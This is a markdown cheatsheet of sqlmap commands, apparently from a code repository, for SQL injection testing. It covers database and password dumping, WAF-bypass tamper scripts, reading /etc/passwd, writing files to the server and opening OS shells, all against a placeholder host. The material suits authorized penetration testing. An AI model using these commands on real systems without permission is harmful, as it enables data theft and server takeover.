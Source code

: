 # Sqlmap Commands Cheatsheet

**sqlmap** is an automated tool for SQL injection and database takeover. This guide covers essential sqlmap commands for users who know the tool but need a quick reference. Always ensure you have permission to test target systems.

## Basic Usage
- **Syntax**:  
  ```bash
  sqlmap [options]
  ```

- **Run sqlmap**:  
  ```bash
  sqlmap -u "<URL>"
  ```

- **Show Help**:  
  ```bash
  sqlmap -h
  ```

- **Show Advanced Help**:  
  ```bash
  sqlmap -hh
  ```

- **Check sqlmap Version**:  
  ```bash
  sqlmap --version
  ```

- **Update sqlmap** (Git installation):  
  ```bash
  sqlmap --update
  ```

## Target Specification
- **Test a URL**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1"
  ```

- **Test Multiple URLs from File**:  
  ```bash
  sqlmap -m urls.txt
  ```

- **Test from HTTP Request File**:  
  ```bash
  sqlmap -r request.txt
  ```

- **Test Specific Parameter**:  
  ```bash
  sqlmap -u "http://example.com/page" -p "id"
  ```

- **Test POST Request**:  
  ```bash
  sqlmap -u "http://example.com/login" --data="username=admin&password=test"
  ```

- **Crawl Website for URLs**:  
  ```bash
  sqlmap -u "http://example.com" --crawl=3
  ```

- **Use Burp Proxy Log**:  
  ```bash
  sqlmap -l burp_logfile.log
  ```

## Enumeration
- **Enumerate Databases**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dbs
  ```

- **Enumerate Tables in a Database**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D <database> --tables
  ```

- **Enumerate Columns in a Table**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D <database> -T <table> --columns
  ```

- **Dump Table Data**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D <database> -T <table> --dump
  ```

- **Dump Specific Columns**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D <database> -T <table> -C col1,col2 --dump
  ```

- **Enumerate Current User**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --current-user
  ```

- **Enumerate Current Database**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --current-db
  ```

- **Enumerate Users**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --users
  ```

- **Enumerate Passwords** (if accessible):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --passwords
  ```

- **Enumerate All Databases**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --all
  ```

## Injection Techniques
- **Specify Injection Type** (e.g., boolean-based, time-based):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --technique=B
  ```
  - Options: `B` (boolean), `E` (error), `U` (union), `S` (stacked), `T` (time), `Q` (inline).

- **Force DBMS** (e.g., MySQL, PostgreSQL):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dbms=mysql
  ```

- **Custom Injection Payload**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --payload="1' AND 1=1--"
  ```

- **Tamper Scripts** (bypass filters):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --tamper=space2comment
  ```

- **Test Specific Parameter with Level**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --level=3
  ```
  - Levels: 1 (basic) to 5 (extensive).

- **Test Specific Parameter with Risk**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --risk=3
  ```
  - Risk: 1 (safe) to 3 (aggressive).

## Advanced Options
- **Use Proxy**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --proxy="http://127.0.0.1:8080"
  ```

- **Set User-Agent**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --user-agent="Mozilla/5.0"
  ```

- **Randomize User-Agent**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --random-agent
  ```

- **Set HTTP Headers**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --headers="Authorization: Bearer <token>"
  ```

- **Use Cookies**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --cookie="session=abc123"
  ```

- **Force SSL**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --force-ssl
  ```

- **Delay Between Requests** (seconds):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --delay=2
  ```

- **Timeout for Requests** (seconds):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --timeout=10
  ```

- **Verbose Output**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -v 3
  ```
  - Verbosity: 0 (quiet) to 6 (debug).

- **Batch Mode** (non-interactive, default answers):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --batch
  ```

- **Save Output to File**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" -o --output-dir=/path/to/output
  ```

## Database Interaction
- **SQL Shell**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --sql-shell
  ```

- **Execute SQL Query**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --sql-query="SELECT * FROM users"
  ```

- **Read File from Server**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --file-read="/etc/passwd"
  ```

- **Write File to Server**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --file-write=/local/file --file-dest=/remote/path
  ```

- **OS Shell** (if permissions allow):  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --os-shell
  ```

## Tips
- Always specify the target URL with `-u` or use a request file with `-r`.
- Use `--batch` for automated scanning without prompts.
- Combine with Burp Suite or proxy logs for complex applications.
- Check tamper scripts in `/usr/share/sqlmap/tamper/` for bypassing WAFs.
- Test on authorized systems only (e.g., DVWA, bWAPP).
- Use `--level` and `--risk` to balance thoroughness and detection risk.